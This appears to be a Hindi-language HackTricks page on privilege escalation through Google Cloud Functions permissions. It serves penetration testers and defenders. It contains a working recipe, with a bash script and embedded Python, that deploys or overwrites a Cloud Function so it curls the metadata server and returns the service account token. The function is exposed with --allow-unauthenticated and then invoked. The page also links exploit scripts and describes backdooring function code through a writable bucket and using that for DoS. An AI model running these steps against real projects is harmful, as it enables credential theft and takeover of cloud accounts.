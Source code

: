 # GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुष्ट) कोड के साथ एक नया Cloud Function बना सकता है और इसे एक Service Account सौंप सकता है**। फिर, विशेषाधिकारों को बढ़ाने के लिए मेटाडेटा से Service Account टोकन लीक करें।\
फंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) मिल सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) मिल सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक Function के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** जिसका लक्ष्य टोकन को एक्सफिल्ट्रेट करना है।

> [!CAUTION]
> Cloud functions को तैनात करने के लिए आपको डिफ़ॉल्ट कंप्यूट सेवा खाते पर या उस सेवा खाते पर actAs अनुमतियों की भी आवश्यकता होगी जिसका उपयोग छवि बनाने के लिए किया जाता है।

कुछ अतिरिक्त विशेषाधिकार जैसे कि संस्करण 1 cloudfunctions के लिए `.call` अनुमति या फंक्शन को ट्रिगर करने के लिए `role/run.invoker` भूमिका की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
> [!CAUTION]
> यदि आपको त्रुटि `Permission 'run.services.setIamPolicy' denied on resource...` मिलती है, तो इसका कारण यह है कि आप `--allow-unauthenticated` पैरामीटर का उपयोग कर रहे हैं और आपके पास इसके लिए पर्याप्त अनुमतियाँ नहीं हैं।

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) मिल सकती है।

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं ताकि एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड किया जा सके (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अभी भी अपडेट करना होगा)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

अपने आप को किसी भी पिछले **`.update`** या **`.create`** विशेषाधिकार दें ताकि आप बढ़ा सकें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियों के साथ, बिना **`iam.serviceAccounts.actAs`** के आप **फंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक मान्य प्रिवेस्क नहीं है।**

### Read & Write Access over the bucket

यदि आपके पास बकेट पर पढ़ने और लिखने की पहुंच है, तो आप कोड में परिवर्तनों की निगरानी कर सकते हैं और जब भी बकेट में **अपडेट होता है, आप अपने कोड के साथ नए कोड को अपडेट कर सकते हैं** ताकि क्लाउड फ़ंक्शन का नया संस्करण प्रस्तुत किए गए बैकडोर कोड के साथ चल सके।

आप हमले के बारे में अधिक जानकारी देख सकते हैं:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

हालांकि, आप इसका उपयोग तीसरे पक्ष के क्लाउड फ़ंक्शंस को पूर्व-समझौता करने के लिए नहीं कर सकते क्योंकि यदि आप अपने खाते में बकेट बनाते हैं और इसे सार्वजनिक अनुमतियाँ देते हैं ताकि बाहरी प्रोजेक्ट इसके ऊपर लिख सके, तो आपको निम्नलिखित त्रुटि मिलती है:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> हालाँकि, इसका उपयोग DoS हमलों के लिए किया जा सकता है।

### Read & Write Access over Artifact Registry

जब एक क्लाउड फ़ंक्शन बनाया जाता है, तो प्रोजेक्ट के आर्टिफैक्ट रजिस्ट्री में एक नया डॉकर इमेज पुश किया जाता है। मैंने इमेज को एक नए के साथ संशोधित करने की कोशिश की, और यहां तक कि वर्तमान इमेज (और `cache` इमेज) को भी हटाने की कोशिश की और कुछ भी नहीं बदला, क्लाउड फ़ंक्शन काम करता रहा। इसलिए, शायद यह **बकेट के साथ रेस कंडीशन हमले का दुरुपयोग करना संभव हो सकता है** ताकि डॉकर कंटेनर को बदला जा सके जो चलाया जाएगा लेकिन **संग्रहित इमेज को केवल संशोधित करना क्लाउड फ़ंक्शन को समझौता करने के लिए संभव नहीं है।**

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
